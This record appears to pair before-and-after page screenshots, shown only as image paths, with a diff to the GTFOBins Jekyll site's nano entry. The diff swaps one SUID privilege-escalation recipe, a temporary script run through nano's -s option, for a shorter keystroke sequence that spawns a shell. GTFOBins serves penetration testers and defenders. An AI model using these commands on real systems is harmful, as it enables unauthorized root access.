

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nano.md, in a window 1280 px wide and 900 px high, scrolled down 648 px. Shown: the top 872 px of the window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update SUID in nano and pico

```diff
--- a/_gtfobins/nano.md
+++ b/_gtfobins/nano.md
@@ -20,12 +20,9 @@ functions:
   suid:
     - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
       code: |
-        TF=$(mktemp)
-        echo '#!/bin/sh -p
-        exec sh -p' > $TF
-        chmod +x $TF
-        ./nano -s $TF /etc/hosts
-        ^T
+        ./nano
+        ^R^X
+        reset; sh 1>&0 2>&0
   sudo:
     - code: |
         sudo nano
```
Also changed, not shown: _gtfobins/pico.md (+3 -6 lines).
